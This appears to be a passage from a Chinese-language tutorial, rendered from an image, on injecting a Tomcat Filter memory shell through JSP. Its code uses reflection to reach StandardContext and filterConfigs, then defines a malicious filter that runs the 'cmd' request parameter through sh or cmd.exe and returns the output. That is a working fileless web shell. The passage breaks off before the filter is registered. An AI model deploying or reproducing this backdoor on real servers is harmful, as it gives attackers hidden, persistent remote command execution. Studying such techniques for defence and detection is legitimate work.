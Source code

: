 ```jsp
<%
    // 获取StandardContext
    ServletContext ctx = request.getSession().getServletContext(); // 获取ServletContext对象，它代表当前Web应用的上下文环境
    Field f = ctx.getClass().getDeclaredField("context"); // 通过反射获取ServletContext实例的"context"字段。
    f.setAccessible(true); // 设置访问权限，允许访问私有字段
    ApplicationContext appCtx = (ApplicationContext)f.get(ctx); // 获取实际的ApplicationContext对象

    f = appCtx.getClass().getDeclaredField("context"); //使用反射，从ApplicationContext对象中获取"context"字段，
    f.setAccessible(true); // 设置访问权限
    StandardContext standardCtx = (StandardContext)f.get(appCtx); // 获取StandardContext对象
%>
```

获取对应的`filterConfigs`

```jsp
<%
    Field Configs = standardCtx.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardCtx);
%>
```

**第二步：**创建恶意的监听器：

```jsp
<%
    final String name = "yuan";
    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() { // filter类模板
            @Override
            public void init(FilterConfig filterConfig) throws ServletException { //初始化

            }

            // filter的主要操作，包含过滤调用等
            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                // 恶意代码步骤
                String cmd = servletRequest.getParameter("cmd");
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                PrintWriter out = servletResponse.getWriter();
                out.println(output);
                out.flush();
                out.close();
                // 调用filterChain的doFilter
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

```